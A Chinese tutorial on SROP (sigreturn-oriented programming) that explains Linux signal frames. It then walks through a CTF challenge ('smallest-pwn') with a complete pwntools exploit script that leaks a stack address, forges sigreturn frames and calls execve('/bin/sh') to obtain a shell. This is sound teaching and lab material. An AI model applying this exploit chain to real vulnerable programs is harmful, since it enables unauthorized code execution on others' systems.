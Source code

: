 = SROP
:toc:
:toc-title: 目录
:source-highlighter: rouge

== 原理介绍

SROP 利用了一个特殊的系统调用：`sigreturn`。
该系统调用正常情况下发生在 signal 阶段，负责恢复进程的上下文信息。
下面让我们来了解一下 Linux signal 机制。

信号（signal）是一个异步通知机制，通知进程相关事件，常用于进程间通信。
当信号发送时，由于信号是异步机制，系统不能保证信号能被立即处理，所以系统会中断目标进程的执行，挂起该进程。
如果进程之前已经注册了一个信号处理程序，那么之后将执行该处理程序。
否则，将执行默认的信号处理程序。

在进程被挂起时，需要保存进程的上下文状态，用以执行完信号处理程序之后的状态恢复。
这个上下文被保存在用户栈上，并通过 sigreturn 系统调用进行恢复。
如果恶意用户自定义一个上下文保存在栈上，sigreturn 也会不加检查地恢复该上下文，即修改寄存器组。

相比于 ROP，SROP 使用条件更简单一点。
只要有一个 syscall 语句，就能修改寄存器值。
只要有一个 syscall ret 语句，就能实现一个图灵完备语言。

.Stack content while handling a signal (linux x86/64) including sigcontext structure
image::Sigret_stackframe.svg[]

=== FPSTATE

FPSTATE 是一个指针，指向一个结构体存放有浮点运算单元（FPU）相关的状态。
具体定义在 https://github.com/torvalds/linux/blob/master/arch/x86/include/uapi/asm/sigcontext.h 。
最初的 x86 架构有单独的协处理器负责浮点运算，称为 8087，于是此后的 FPU 都称作 x87 芯片，不管它有没有集成到微处理器里面。
更多资料可参考

* https://wiki.osdev.org/FPU
* http://www.website.masmforum.com/tutorials/fptute/index.html
* https://webcache.googleusercontent.com/search?q=cache:KOFZfRBs2AcJ:https://en.wikibooks.org/wiki/X86_Assembly/Floating_Point&cd=1&hl=en&ct=clnk&gl=de&lr=lang_en|lang_zh-CN

== 例题

题目为  360 春秋杯中的 smallest-pwn，题中提供了一个二进制文件，要求反弹 shell。

image::program asm.png[]

程序很小，就几行汇编代码，完成的是一个 read 系统调用，直接溢出在栈上。

== 利用思路

检查程序发现只开启了 NX 保护，并且没有使用任何外部函数：

[source, cmd]
----
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
----

想要反弹 shell，就要执行 execve("/bin/sh",0,0) 调用，则字符串就得写在进程中的某个位置。
继而可知使用 `read` 调用在某个地址处写入 shell 路径，为了对抗潜在的 ASLR 这个地址必须是已知的。
于是我们就得用 `write` 调用暴露一些地址供我们写入字符串，由于栈上可能存了某些字符串的地址，而这些字符串又是局部变量保存在栈上，所以栈上可能存在一些栈地址，我们可以去暴露得到它们。
最后，为了让利用链能够顺利进行，我们应该提前布置好栈上的内容。

反向推理完成后，让我们来正向梳理解题思路：

. `read` 系统调用布置 ROP 链

. `read` 系统调用控制返回值 rax，用于调用 `write` 系统调用

. `write` 系统调用打印栈上内容，其中必有栈地址（参数为局部变量字符串），获取到该地址

. 再次调用 `read` 写入后续 ROP 链和 shell 路径，由于 `read` 的地址不再是当前栈（rsi 参数有变化），因此需要利用 `rt_sigreturn` 系统调用改变寄存器的值。
这里 rsp 只能填已知的栈地址，所以会发生栈迁移

. 最后使用一次 `rt_sigreturn` 系统调用布置好寄存器的值，再使用 syscall 调用 `execve` 完成反弹 shell

== 解题过程

首先初始化 pwntools：

[source,python]
----
from pwn import *
prog = r"./smallest"
small = ELF(prog)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.bits = 64
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process(prog)
    # gdb.attach(sh)

read_addr = 0x4000B0
write_addr = 0x4000B3
syscall_addr = 0x4000BE
----

写入 3 个返回地址到栈上，分别调用 `read`、`write` 和 `read`。
第一次 `read` 用于控制 rax 为值 0x1，这样才能在系统调用时调用的是 `write`。
然后 `write` 用于打印栈上的内容，泄露一个地址用于传入字符串并使用。
第二次 `read` 用于后续构建后续的 ROP 链。

[source,python]
.程序自带 read 输入的数据
----
payload = flat(read_addr, write_addr, read_addr)
sh.send(payload)
raw_input()
----

第一次 `read` 应该输入 write rop 地址的最低位。
因为首先要保证 `read` 的返回值是 1，即只能输入一个字符。
其次这个输入的值不应该破坏原先的内容，而目标程序是小端序，所以是地址的最低位。
`write` 传回的第二个字节是栈地址，由栈上内容可知。

[source,python]
.第一次 read 和栈地址的获取
----
sh.send('\xb3')
# ---------------------------------------
# | read_addr | last function variables |
# ---------------------------------------
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))
raw_input()
----

第二次 `read` 就要考虑将字符串写到泄露地址上了，则应该传入 `rt_sigreturn` 调用和它的参数，读数据到泄露地址上。
这里可以定义一个小的指令段，即通过 `read` 返回值触发 `syscall` 调用 `rt_sigreturn`，这个指令段很通用。

[source,python]
.定义调用 rt_sigreturn 的必需指令段
----
# set rax=15 and call sigreturn
call_sigret = flat(syscall_addr, length=15)
----

[source,python]
.通过 rt_sigreturn 构造 read 调用
----
# read(0, stack_addr, 0x400)
sigret.rax = int(constants.SYS_read)
sigret.rdi = 0x0
sigret.rsi = stack_addr
sigret.rdx = 0x400
sigret.rsp = stack_addr
sigret.rip = syscall_addr
payload = flat(read_addr, 0, bytes(sigret))
sh.send(payload)
sh.send(call_sigret)
----

由 SROP 构造的 read 触发以后，就要考虑写入哪些值了。
除了 shell 路径之外，还需要构造 execve 调用，为了安全起见还应该将字符串放到栈后面。

[source,python]
.调用 read 写入 execve 调用和 /bin/sh
----
# execve(stack_addr, 0, 0)
sigret.rax = int(constants.SYS_execve)
sigret.rdi = stack_addr + 0x200
sigret.rsi = 0
sigret.rdx = 0
sigret.rsp = stack_addr
sigret.rip = syscall_addr
payload = flat(read_addr, 0, bytes(sigret), length=0x200)
payload += flat(b"/bin/sh\x00")
sh.send(payload)
sh.send(call_sigret)

sh.interactive()
----

这样就成功拿到 shell 了。

image::get shell.png[]


